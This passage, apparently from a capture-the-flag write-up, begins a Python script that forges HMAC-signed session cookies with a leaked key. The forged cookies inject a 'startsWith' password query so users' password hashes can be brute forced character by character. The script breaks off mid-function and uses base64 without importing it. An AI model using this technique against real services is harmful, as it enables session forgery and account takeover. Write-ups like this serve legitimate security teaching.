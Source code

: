 ![](/img/image-20231107153428075.png)

With this together, I can brute force passwords for users with this
script:



    import hashlib
    import hmac
    import requests
    import sys

    KEY = b"8929874489719802418902487651347865819634518936754"
    HEX_CHARS = '0123456789abcdef'


    def make_cookies(user_id, password):
        pt_cookie = f'{{"user": {{"id": {user_id}, "password": {{"startsWith": "{password}"}}}}}}'
        enc_cookie = base64.b64encode(pt_cookie.encode()).decode()
        full_cookie_b = f'download_session={enc_cookie}'
        digest = hmac.new(KEY, full_cookie_b.encode(), hashlib.sha1).digest()
        sig = base64.urlsafe_b64encode(digest).decode().rstrip("=")
